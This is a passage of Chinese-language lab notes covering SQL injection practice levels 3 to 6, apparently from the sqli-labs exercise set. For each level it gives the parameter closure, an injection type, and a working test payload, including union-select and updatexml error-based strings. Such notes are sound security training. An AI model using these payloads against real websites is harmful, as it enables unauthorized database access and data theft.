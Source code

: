     注入方式 联合，报错，布尔，延时
    
        

## less-3

    请求方式 get
    
    闭合方式 ‘）
    
    攻击测试 ?id=-1 union select 1,2,version()--+
    
    注入方式 联合，报错，布尔，延时
    
        

报错方式：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216145605572.png)![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216145732398.png)

## less-4

    请求方式 get
    
    闭合方式 ")
    
    攻击测试  ?id=-1") union select 1,2,version()--+
    
    注入方式 联合，报错，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216145931317.png)

## Less-5

    请求方式 get
    
    闭合方式 '
    
    攻击测试  ?id=1' and updatexml(1,concat('^',version(),'^'),1)--+
    
    注入方式 报错，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216150353492.png)

## Less-6

    请求方式 get
    
    闭合方式 "
    
    攻击测试  ?id=1" and updatexml(1,concat('^',version(),'^'),1)--+
    
    注入方式 报错，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216150636954.png)
